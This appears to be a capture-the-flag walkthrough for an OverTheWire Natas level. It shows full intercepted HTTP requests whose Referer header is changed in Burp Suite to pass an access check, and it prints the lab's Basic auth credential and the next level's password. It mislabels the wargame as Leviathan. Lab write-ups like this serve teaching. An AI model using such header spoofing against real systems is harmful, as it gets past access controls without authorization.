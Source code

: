 # Level 5

Leviathan OverTheWire Level 5: [level 5](https://overthewire.org/wargames/natas/)

## Level 5 info
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" 

## Answer
We need to manipulate the HTML request using burpsuite

Capture the data in the proxy intercept 

```json
GET /index.php HTTP/1.1
Host: natas4.natas.labs.overthewire.org
Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://natas4.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```

If we send this intercept to the repeater we can manipulate and send the request and see what happens

If we change the referer to: http://natas5.natas.labs.overthewire.org

```json
GET /index.php HTTP/1.1
Host: natas4.natas.labs.overthewire.org
Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://natas5.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```

Sending this new modified request we get the following response 
```html
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
```

## Level 5 Website
[natas5](http://natas5.natas.labs.overthewire.org)